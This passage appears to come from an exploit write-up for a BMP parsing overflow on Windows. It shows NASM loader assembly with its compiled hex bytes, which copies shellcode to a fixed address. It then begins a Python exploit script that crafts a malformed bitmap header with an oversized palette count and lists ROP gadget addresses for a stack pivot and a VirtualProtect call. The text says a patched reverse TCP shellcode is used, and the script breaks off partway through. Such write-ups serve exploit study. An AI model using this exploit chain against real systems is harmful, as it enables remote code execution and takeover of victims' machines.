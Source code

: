 ```nasm
loader:
    xchg eax, esp
    mov ebp, eax
    add eax, 4
    mov edx, 200
    mov ecx, 0x59e030
    mov edi, 4
    mov ebx, 3

loop:
    mov esi, dword ptr[eax]
    mov dword ptr [ecx], esi
    add eax, edi
    add ecx, ebx
    dec edx
    jnz loop

    mov esi, 0x59e030
    mov esp, ebp

; Compiles to "9489c583c004bac8000000b930e05900bf04000000bb030000008b30893101f801d94a75f5be30e0590089ec".decode("hex")
; Below were harmless null bytes (add  byte ptr [eax], al)
; So the execution reaches the actual shellcode at 0x0x59e030
```

### 5. Shellcode and exploit

We used a [reverse TCP shellcode](https://www.exploit-db.com/exploits/40334/) on Windows 7. We patched it so that it also works on Windows 10.

Below is the full exploit code.

```py
import struct
import socket

def pack(x, f='<I'):
    return struct.pack(f, x)

### BOF

overlen = 0x1000
size = 0x10

b = 'BM' + 'fhdr'*3  # 14 byte file header
b += pack(40)        # header size
b += pack(0)         # width
b += pack(0)         # height
b += pack(1, '<H')   # must be one
b += pack(8, '<H')   # depth bits
b += 'cmpr'          # compression
b += pack(size)      # image size
b += 'xdpi'
b += 'ydpi'
b += pack(overlen/4) # number of palettes
b += 'zero'          # Ignored

### ROP

_data = 0x59e000
call_vprotect = 0x4d58fb
pivot = 0x4040ca
popeax = 0x00458f09
```